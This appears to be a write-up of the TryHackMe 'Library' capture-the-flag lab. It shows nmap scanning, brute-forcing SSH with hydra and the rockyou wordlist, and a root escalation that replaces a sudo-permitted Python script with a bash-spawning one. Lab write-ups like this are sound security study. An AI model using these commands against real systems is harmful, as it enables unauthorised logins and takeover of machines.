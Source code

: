 # THM - Library

## IP address
10.10.83.56

## Write Up
1. do an Nmap scan.
```bash
#scan for open ports and direct results to nmap/initial
nmap -p- -A -sV -sC -oN initial 10.10.83.56
```
- Results:
```
root@kali:~# nmap -p- -A -sV -sC -oN initial 10.10.83.56
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-11 13:36 UTC
Nmap scan report for ip-10-10-83-56.eu-west-1.compute.internal (10.10.83.56)
Host is up (0.00043s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
MAC Address: 02:17:26:EF:F3:08 (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.13
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.43 ms ip-10-10-83-56.eu-west-1.compute.internal (10.10.83.56)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds
```

2. Seems like there is a ```robots.txt```, let see what it content:
```
User-agent: rockyou 
Disallow: /
```

3. Looking through the webpage, we noted that the the blog was posted by ```meliodas```.
- There are no further clue and I cannot find a login page. So i guess we proceed with bruteforcing the ```ssh``` with  ```hydra```:
```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.83.56 -x txt,php
```

-In the process we found the ssh login so go ahead and login to capture your ```user.txt```.

# Privilege Escalation

4. Let see if there are any ```sudo``` to abuse:
```
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

- Looks like we can run ```bak.py``` as sudo. Maybe we can spawn a ```/bin/bash``` shell with it.

- Let see if we have permission to spawn a shell with ```ls -la:
```
meliodas@ubuntu:~$ ls -la
total 40
drwxr-xr-x 4 meliodas meliodas 4096 Aug 24  2019 .
drwxr-xr-x 3 root     root     4096 Aug 23  2019 ..
-rw-r--r-- 1 root     root      353 Aug 23  2019 bak.py
-rw------- 1 root     root       44 Aug 23  2019 .bash_history
-rw-r--r-- 1 meliodas meliodas  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 meliodas meliodas 3771 Aug 23  2019 .bashrc
drwx------ 2 meliodas meliodas 4096 Aug 23  2019 .cache
drwxrwxr-x 2 meliodas meliodas 4096 Aug 23  2019 .nano
-rw-r--r-- 1 meliodas meliodas  655 Aug 23  2019 .profile
-rw-r--r-- 1 meliodas meliodas    0 Aug 23  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 meliodas meliodas   33 Aug 23  2019 user.txt
```

- Looks like we can only read but cant write. 

5. We can first try to remove the initial file:
```
rm /home/meliodas/bak.py
```

- Then we will try replacing it with:
```
echo "import pty; pty.spawn('/bin/bash')" > /home/meliodas/bak.py
```

- Lastly, lets get root access:
```bash
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py
root@ubuntu:~#
```

6. Capture ```root.txt``` flag.



